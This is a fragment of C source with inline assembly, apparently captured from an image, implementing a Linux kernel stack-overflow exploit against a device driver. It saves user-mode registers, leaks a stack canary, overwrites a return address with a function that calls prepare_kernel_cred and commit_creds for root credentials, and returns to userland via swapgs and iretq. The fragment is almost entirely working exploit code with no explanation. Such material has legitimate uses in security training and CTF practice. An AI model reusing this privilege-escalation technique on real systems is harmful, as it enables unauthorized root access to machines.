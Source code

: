 ```c
        "mov rax, prepare_kernel_cred \n"
        "xor rdi, rdi \n"
        "call rax \n"
        "mov rdi, rax \n"
        "mov rax, commit_creds \n"
        "call rax \n"
        "swapgs \n"
        "mov r15, user_ss \n"
        "push r15 \n"
        "mov r15, user_sp \n"
        "push r15 \n"
        "mov r15, user_rflags \n"
        "push r15 \n"
        "mov r15, user_cs \n"
        "push r15 \n"
        "mov r15, user_rip \n"
        "push r15 \n"
        "iretq \n"
        ".att_syntax \n"
    );
}

void save_status()
{
    __asm__ volatile(
        ".intel_syntax noprefix \n"
        "mov user_cs, cs \n"
        "mov user_ss, ss \n"
        "mov user_sp, rsp \n"
        "pushf \n"
        "pop user_rflags \n"
        ".att_syntax \n"
    );
    puts("[*] save status");
}

void overflow()
{
    unsigned long rop[0x20];
    int off = (0xa0 - 0x20) / sizeof(unsigned long);
    rop[off++] = canary; // 0x20
    rop[off++] = 0; // 0x18
    rop[off++] = 0; // 0x10
    rop[off++] = 0; // 0x08
    rop[off++] = (unsigned long) esc_priv;

    if (write(devfd, rop, sizeof(rop)) < 0)
        perror("[-] write dev failed");
    puts("[+] write dev success");

}

int main()
{
    save_status();
    open_dev();
    leak();
    overflow();
    return 0;
}
```
